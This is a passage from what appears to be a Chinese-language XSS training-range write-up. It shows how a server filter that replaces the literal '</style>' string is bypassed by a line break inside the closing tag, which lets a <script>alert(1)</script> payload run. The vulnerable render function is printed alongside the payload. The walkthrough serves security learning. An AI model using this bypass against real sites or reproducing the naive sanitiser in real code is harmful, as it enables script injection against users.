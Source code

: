 

## 0x08——利用`换行`对style标签过滤

style标签里是CSS规则，里面不能执行js代码

```
</style
><script>alert(1)</script>
```

利用js中语法松散

![image-20220116103446162](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20XSS%E9%9D%B6%E5%9C%BA.assets/image-20220116103446162.png)

```
[html]
<style>
      </style
><script>alert(1)</script>
    </style>

[server code]
function render (src) {
  src = src.replace(/<\/style>/ig, '/* \u574F\u4EBA */')
  return `
    <style>
      ${src}
    </style>
  `
}
```
